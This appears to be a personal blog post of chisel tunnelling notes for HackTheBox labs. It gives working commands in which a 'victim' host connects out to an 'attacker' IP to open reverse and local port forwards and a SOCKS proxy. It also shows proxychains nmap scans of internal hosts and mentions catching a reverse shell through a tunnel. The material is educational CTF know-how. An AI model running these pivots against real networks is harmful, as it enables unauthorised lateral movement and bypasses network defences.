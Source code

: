 ```yaml
---
layout: post
title: My Notes about Chisel (Tool for Tunneling)
tags: [System Hacking]
comments: true
---
```


Hey guys today i am sharing my little notes about a insane tool called **chisel**. Chisel, one of the tool i am using mostly while doing HackTheBox.

Thanks to **ippsec and mrsh3ll** for teaching me about chisel.

Get chisel from [here](https://github.com/jpillora/chisel).

I will show you some important usages of chisel with example.

## Chisel cheat sheet.

* Here attacker IP is **10.14.14.14** and client IP is **10.10.10.10**.

### Reverse Pivot - Example

* Start chisel server on port 8000 (attacker system is server).

~~~
chisel server -p 8000 --reverse
~~~

   * --reverse : Tells the server that I want clients connecting in to be allowed to define reverse tunnels. This means clients connecting in can open listening ports on my kali box.

* From victim (10.10.10.10 is client).

~~~
chisel client 10.14.14.14:8000 R:8001:172.18.0.3:80 (This will listen on port 8001 on all interface on attacker box). (Bad way)
~~~

OR

~~~
chisel client 10.14.14.14:8000 R:127.0.0.1:8001:172.18.0.3:80 (Best way)
~~~

  * chisel connect to server.
    
  * and open port 8001 on remote box which is on server. R is for remote,
    
  * if any packet on server:8001 it will go through tunnel we created through 8000 and then send it out to 172.18.0.3:80.
    
So now we can do a curl command from our kali box (curl 127.0.0.1:8001) and we can now access website running on 172.18.0.3:80.

###### Local Pivot - Example



* Start chisel server on port 8000 (attacker system is server).

~~~
chisel server -p 8000 
~~~

* From victim (10.10.10.10 is client). 

~~~
chisel client 10.14.14.14:8000 9001:127.0.0.1:8001
~~~

 * chisel connect to server.
 
 * open port 9001 on client (10.10.10.10).
 
 * any packet to 10.10.10.10:9001 will go through tunnel and land on port 10.14.14.14:8001.

So now send reverse shell to 9001 from somewhere on the network and recieve it on 8001 on attacker box.

### Socks Proxy

Chisel also supports **socks** option.

As usual,

* From attacker box start chisel server.

~~~
chisel server -p 8000 --reverse
~~~

* From victim (10.10.10.10 is client). 

~~~
chisel.exe client 10.14.14.14:8000 R:0.0.0.0:1080:socks
~~~

OR

~~~
chisel.exe client 10.14.14.14:8000 R:socks
~~~

I usually use proxychains. To use proxychains you just have to add the following line to **/etc/proxychains.conf**:

~~~
socks5 127.0.0.1 1080
~~~

Then use proxychains with all your favourite tools,

~~~
proxychains nmap -sC -sT -p 80 172.19.0.4
~~~

There are many other options with chisel that we can use. I only mentioned a few.

Hope this will help..
